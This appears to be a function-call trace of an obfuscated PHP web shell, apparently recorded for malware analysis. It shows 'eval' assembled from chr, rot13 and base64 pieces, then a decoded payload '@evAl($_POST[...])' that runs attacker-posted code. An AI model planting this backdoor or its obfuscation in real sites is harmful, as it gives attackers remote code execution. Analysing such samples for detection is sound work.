

The file beside this chart, header and first rows:
uuid, file_md5, index, source, target, argc, argv, return, dynamic
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 0, __main__, zend_compile_file, 2, {"value": []}, {"value": "2804413C413C08413C0802413C084…, []
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 1, __main__, chr, 1, {"value": [[0, "codepoint", 36]]}, {"value": "$"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 2, __main__, str_rot13, 1, {"value": [[0, "str", "f"]]}, {"value": "s"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 3, __main__, str_rot13, 1, {"value": [[0, "str", "b"]]}, {"value": "o"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 4, __main__, chr, 1, {"value": [[0, "codepoint", 109]]}, {"value": "m"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 5, __main__, base64_decode, 1, {"value": [[0, "str", "ZQ=="]]}, {"value": "e"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 6, __main__, chr, 1, {"value": [[0, "codepoint", 101]]}, {"value": "e"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 7, __main__, chr, 1, {"value": [[0, "codepoint", 118]]}, {"value": "v"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 8, __main__, chr, 1, {"value": [[0, "codepoint", 97]]}, {"value": "a"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 9, __main__, base64_decode, 1, {"value": [[0, "str", "bA=="]]}, {"value": "l"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 10, __main__, str_rot13, 1, {"value": [[0, "str", "("]]}, {"value": "("}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 11, __main__, chr, 1, {"value": [[0, "codepoint", 36]]}, {"value": "$"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 12, __main__, chr, 1, {"value": [[0, "codepoint", 115]]}, {"value": "s"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 13, __main__, str_rot13, 1, {"value": [[0, "str", "b"]]}, {"value": "o"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 14, __main__, base64_decode, 1, {"value": [[0, "str", "bQ=="]]}, {"value": "m"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 15, __main__, chr, 1, {"value": [[0, "codepoint", 101]]}, {"value": "e"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 16, __main__, str_rot13, 1, {"value": [[0, "str", ")"]]}, {"value": ")"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 17, __main__, str_rot13, 1, {"value": [[0, "str", ";"]]}, {"value": ";"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 18, __main__, create_function, 2, {"value": [[0, "args", "$some"], [1, "co…, {"value": "\\x00lambda_1"}, [0, 0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 19, create_function, zend_compile_string, 2, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 20, __main__, chr, 1, {"value": [[0, "codepoint", 84]]}, {"value": "T"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 21, __main__, chr, 1, {"value": [[0, "codepoint", 49]]}, {"value": "1"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 22, __main__, chr, 1, {"value": [[0, "codepoint", 78]]}, {"value": "N"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 23, __main__, base64_decode, 1, {"value": [[0, "str", "VQ=="]]}, {"value": "U"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 24, __main__, base64_decode, 1, {"value": [[0, "str", "Vw=="]]}, {"value": "W"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 25, __main__, base64_decode, 1, {"value": [[0, "str", "Mg=="]]}, {"value": "2"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 26, __main__, base64_decode, 1, {"value": [[0, "str", "Vg=="]]}, {"value": "V"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 27, __main__, chr, 1, {"value": [[0, "codepoint", 122]]}, {"value": "z"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 28, __main__, chr, 1, {"value": [[0, "codepoint", 101]]}, {"value": "e"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 29, __main__, chr, 1, {"value": [[0, "codepoint", 88]]}, {"value": "X"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 30, __main__, base64_decode, 1, {"value": [[0, "str", "OTI0NjA7QGV2QWwoJ…, {"value": "92460;@evAl($_POST[esyx8]);27…, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 31, __main__, __lambda_func, 1, {"value": [[0, "some", "92460;@evAl($_PO…, {"value": "void"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 32, __lambda_func, eval, 1, {"value": [[0, "phpcode", "92460;@evAl($…, {"value": "void"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 33, eval, zend_compile_string, 2, {"value": [[0, "source_string", "92460;@…, {"value": "39635051493A3E"}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 34, eval, zend_fetch_r_post, 1, {"value": [[0, "op1", "_POST"]]}, {"value": []}, [0]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 35, eval, eval, 1, {"value": [[0, "phpcode", "assert"]]}, {"value": "void"}, [130]
94b466d48832b14e93d7ef736b08c82f, b9e310e255d031c9ff64f4cca4eaa9b2, 36, eval, zend_compile_string, 2, {"value": [[0, "source_string", "assert"…, {"value": ""}, [130]
